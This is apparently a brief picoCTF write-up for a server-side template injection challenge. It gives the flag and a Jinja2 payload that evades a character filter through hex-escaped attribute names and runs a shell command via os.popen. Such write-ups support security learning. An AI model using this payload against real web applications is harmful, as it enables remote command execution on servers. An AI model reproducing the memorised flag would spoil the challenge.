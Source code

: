 ### Descripción 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
	
Additional details will be available after launching your challenge instance.

### Soluciones


```
picoCTF{sst1_f1lt3r_byp4ss_afa6aa72}
```
### Notas adicionales 
payload {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

### Referencias 
